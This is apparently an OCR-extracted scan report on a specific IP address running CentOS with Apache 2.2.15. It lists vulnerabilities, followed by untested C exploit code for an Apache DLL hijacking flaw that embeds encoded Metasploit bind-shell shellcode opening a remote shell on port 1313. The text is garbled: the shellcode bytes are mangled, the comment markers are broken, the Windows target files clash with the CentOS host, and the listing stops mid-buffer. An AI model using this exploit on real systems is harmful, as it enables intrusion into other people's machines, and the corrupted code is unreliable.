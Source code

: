 sic info
IP: 140.211.89.15
OS:
 - CentOS
Other:

 - Apache version 2.2.15
 - OpenSSH 5.3

Vulnerabilities found:

Apache 2.2.15
 - Integer overflow in apache2-mpm-worker 2.2.19 mod-setenvif (If its in 2.2.19, it is in 2.2.15)
 - DOS (many remote denial of services)
 - DLL hijacking vulnerability (this is what the exploit code is fo ) 


-----------------------------------------

Exploit code:

(NOT TESTED)

File Vulnerable:
- httpd.exe
- ApacheMonitor.exe
- htpasswd.exe
- htdigest.exe
- htdbm.exe
- htcacheclean.exe
- httxt2dbm.exe
- openssl.exe
- rotatelogs.exe
- wintty.exe
*/
#include &lt;windows.h&gt;
#define DllExport __declspec (dllexport)
/*
* windows/shell_bind_tcp – 476 bytes
* http://www.metasploit.com
* Encoder: x86/shikata_ga_nai
* LPORT=1313, RHOST=, EXITFUNC=process, InitialAutoRunScript=,
* AutoRunScript=
*/
unsigned char buf[] =
&quot;x33xc9xb1×71xd9xccxd9×74x24xf4×5axb8×8bxf0×6b&quot;
&quot;x88×31x42×14x03×42x14×83xeax77×12x9ex51×4bx0a&quot;
&quot;x15×46xa7×13x2exc4×17x2dx90xfax5ex1cx44xccx17&quot;
&quot;x46×1axc1×2bx7bx6bx0bxc9xcbx79xf3×02x70xa7×1c&quot;
&quot;x1ax18×5exeax0ex4cx26×6dx61×78x82×18x2ex5cxb0&quot;
&quot;x47×78xb2xc4×13xa2×2bxfax10xe4×75x67xb5×3cx0f&quot;
&quot;xd8xbcxefxaexddxf7×7cx02×82xd9×94x69xf6×52x08&quot;
&quot;xc3xddx4dx9fx38×1fx4cx58×59x99×20xcex33×2bxe6&quot;
&quot;x9ex58×2ax15×3axe7xacx30×0fxd9×19xf0xbcx96xe1&quot;
&quot;xc5xdcxfcxe7×42x6ex35×16x4axf8×16x82×92x75xcd&quot;
&quot;x72xb0×29x9exe4xadxa0×37x18×21xf9×5ax28xcaxc7&quot;
&quot;x9exa3×1dxd5xe7xbexcexb6×58x9ax29xdcx1axbax13&quot;
&quot;x72×13x09×87x4cx1cxf4×9ax33×30x57×38x59×4fx63&quot;
&quot;x4ax8fxdfx2bxc7×3bx4ax2dx22×97x08×8dxf0×36x57&quot;
&quot;x04×14x71×65x45×49xf3×0cx20xaex9dxefxc1xecxe7&quot;
&quot;xcbx29×4fx12×65x23×10xb5xbcx8dxa0xafxc8×72x85&quot;
&quot;x6cx72×2exe8×22x8fx3bx16×40x86×68x80×7dxafxf4&quot;
&quot;xd1xcdxf6×7exd5×29x45xdbx05×92x29xc8xe2xb4×13&quot;
&quot;xfbxebx3bx9ex9cxfex62xacx9dxa1×5cx9bx40×3fx12&quot;
&quot;xc6×92xf6×5cx16xdbx64×62xcdx20×58x5fx69×71x80&quot;
&quot;x11xa4xdex36xf3×73x53×86x07xbax93×68x03×99xaf&quot;
&quot;xf7xd5×91x1fxcbxc3×0ex66×94xdcx5ax69×57xe3×76&quot;